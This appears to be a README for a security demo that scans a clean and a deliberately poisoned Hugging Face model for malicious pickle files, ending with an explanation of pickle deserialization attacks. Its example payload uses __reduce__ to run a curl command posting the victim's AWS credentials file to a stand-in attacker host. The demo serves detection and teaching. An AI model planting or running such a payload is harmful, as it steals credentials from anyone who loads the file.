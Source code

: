    ```bash
   chmod +x *.sh
   setup-lab.sh
   ```

## Demo Flow

### Prep: Activate venv
You'll need to get inside the created venv to run your scans.

   ```bash   
   source venv/bin/activate
   ```

### Part 1: Clean Model Scan

Scan `amazon/chronos-t5-small`, a clean model chosen for easy scanning.
   ```bash   
   ./run-scan.sh "https://huggingface.co/amazon/chronos-t5-small"
   ```

### Part 2: Poisoned Model Scan

Scan `scthornton/chronos-t5-small-poisoned-demo`, identical to the clean model but with a malicious pickle file added:
   ```bash
   ./run-scan.sh "https://huggingface.co/scthornton/chronos-t5-small-poisoned-demo" 
   ```

### Part 3: Analysis & Value Proposition

- Side-by-side comparison of results
- Explanation of detection mechanism
- ROI calculation (average data breach: $4.45M)
- Technical deep dive

## The Attack Explained

### What is Pickle Deserialization?

Python's `pickle` module allows objects to be serialized and deserialized. However, it's unsafe for untrusted data because it can execute arbitrary code during deserialization.

### Exploit Code

```python
import pickle

class MaliciousCheckpoint:
    def __reduce__(self):
        import os
        return (
            os.system,
            ("curl -X POST https://attacker-c2.com/exfil -d @$HOME/.aws/credentials",)
        )

# When victim loads this:
with open('malicious_checkpoint.pkl', 'rb') as f:
    checkpoint = pickle.load(f)  # ← CODE EXECUTES HERE
    # AWS credentials sent to attacker before user realizes
```
